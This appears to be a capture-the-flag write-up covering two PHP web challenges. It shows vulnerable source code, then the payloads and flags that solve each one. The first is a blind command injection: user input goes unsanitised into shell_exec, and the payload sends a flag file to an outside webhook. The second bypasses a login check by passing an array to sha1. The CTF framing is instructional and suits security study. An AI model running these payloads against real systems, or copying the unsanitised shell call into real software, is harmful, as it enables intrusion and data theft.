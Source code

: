     <h1>Youtube Viewer</h1>

    Give me a valid youtube id:
    <form method="get">
    <input type="text" name="v">
    <input type="submit">
    </form><br><br>
    Example: uCLEq9V0-Yk
    <br>
    I will check your input is valid youtube id or not.
    <br><br>
    <?php
            $default="uCLEq9V0-Yk";
            if(isset($_GET['v'])) {
                    $tmp = $_GET['v'];
                    $res = shell_exec("curl -i 'https://img.youtube.com/vi/$tmp/0.jpg'");
                    if(strpos($res, "404 Not Found") !== FALSE) {
                            echo "<h3>Q___Q  Your input seems invalid.</h3><br>";
                    } else {
                            $default = $tmp;
                    }
            }
    ?>
    <iframe id="ytplayer" type="text/html" width="640" height="360"
      src="https://www.youtube.com/embed/<?php echo $default; ?>?autoplay=0"
      frameborder="0"></iframe>
    <!-- hint: backend will download/view the youtube video image and check it exist or not. -->
    <!-- Try more payload -->
    </body>
    ```
* payload : `'$(curl https://webhook.site/8d972bfe-8675-4a35-b72f-47a0a8c7a187 -d "$(cat ../../../flag)")'`
* flag : `FLAG{Blind_cmd_injection_is_so_fun_XD}`

### MyPHP
> http://140.110.112.78:4010/

```php=
<?php
highlight_file(__FILE__);

include("user.php");
// $users = Array('admin'=>'xxxx', ...)

$user = $_GET['user'];
$pass = $_GET['pass'];

if(isset($user) && isset($pass)) {
    if($users[$user] === sha1($pass))
        echo $flag;
    else
        echo "Q______________Q";
}
```
* 滿足 `$users[$user] === sha1($pass)` 即可拿到 flag
* `sha1([]) = null`
* `$user[只要不是 admin] = null`
* payload : `http://140.110.112.78:4010/?user=&pass[]=`
* flag : `FLAG{why_so_ez?}`
